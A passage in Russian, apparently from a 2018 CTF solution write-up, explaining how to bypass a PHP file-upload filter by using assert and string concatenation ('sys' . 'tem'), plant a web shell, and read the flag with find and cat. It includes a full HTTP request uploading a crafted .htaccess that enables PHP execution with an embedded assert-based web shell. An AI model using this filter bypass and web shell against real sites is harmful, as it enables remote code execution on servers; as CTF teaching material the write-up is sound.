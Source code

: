 \begin{enumerate}
    Далее также возможна некоторая вариативность в решении, например:
    
    Можно изучить документацию к языку программирования PHP на предмет наличия близких по функциональности конструкций и обнаружить функцию “assert”, которая не блокируется сервисом и при этом имеет функционал, сходный с функцией “eval”, которая динамически интерпретирует код, переданный ей в качестве аргумента. Далее, можно закодировать вызов system с помощью конкатенации двух строк, таким образом, обойдя фильтр, который ищет точное вхождение подстроки “system” в загружаемом файле.
    
    Можно сформировать веб-шелл динамически, получив заблокированное слово “system” путем конкатенации двух строк, например, “sys” . “tem”. Далее, воспользовавшись встроенными функциями PHP для работы с файлами, сохранить веб-шелл в файл с некоторым известным именем и следующим запросом обратиться к нему.

    После получения веб-шелла можно воспользоваться стандартной unix-\linebreak командой find для поиска флага, например: “find / -name flag.txt”. Изучив вывод команды, легко понять, что флаг находится по пути “/var/flag.txt”, считать который можно, опять же, воспользовавшись веб-шеллом, с помощью команды “cat /var/flag.txt”.

    Также приведем вектор атаки в виде HTTP-запроса для варианта решения, использующий конфигурационный файл .htaccess:
    \begin{verbatim}
POST / HTTP/1.1
Host: imageboxhard.2018.cyberchallenge.ru
Content-Length: 309
Content-Type: multipart/form-data; boundary=----boundary
Connection: close

------boundary
Content-Disposition: form-data; name="file"; filename=".htacHTACCESScess"
Content-Type: image/png

php_flag engine 1
<Files .htaccess>
SetHandler application/x-httpd-php
Require all granted
Order allow,deny
Allow from all
</Files>
# <?php assert(\$_GET['cmd']); ?>
------boundary--
    \end{verbatim}
\end{enumerate}

